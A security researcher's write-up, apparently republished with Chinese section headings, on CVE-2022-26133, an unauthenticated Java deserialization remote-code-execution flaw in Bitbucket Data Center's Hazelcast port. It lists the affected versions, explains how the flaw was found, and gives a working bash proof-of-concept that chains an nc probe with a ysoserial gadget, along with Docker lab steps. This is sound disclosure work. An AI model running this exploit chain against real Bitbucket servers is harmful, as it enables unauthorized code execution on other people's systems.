



## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 

## 来源

[https://github.com/snowyyowl/writeups/](https://github.com/snowyyowl/writeups/)

## 影响范围

Atlassian Bitbucket Data Center >= 5.14.x

Atlassian Bitbucket Data Center 6.x

Atlassian Bitbucket Data Center < 7.6.14

Atlassian Bitbucket Data Center < 7.16.x

Atlassian Bitbucket Data Center < 7.17.6

Atlassian Bitbucket Data Center < 7.18.4

Atlassian Bitbucket Data Center < 7.19.4

Atlassian Bitbucket Data Center 7.20.0

## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  




To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```


### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2021-26084

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

```

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```


#### Probe Packet to Query Cluster Name


#### Response Packet from Bitbucket




#### Payload to trigger RCE


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain



## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

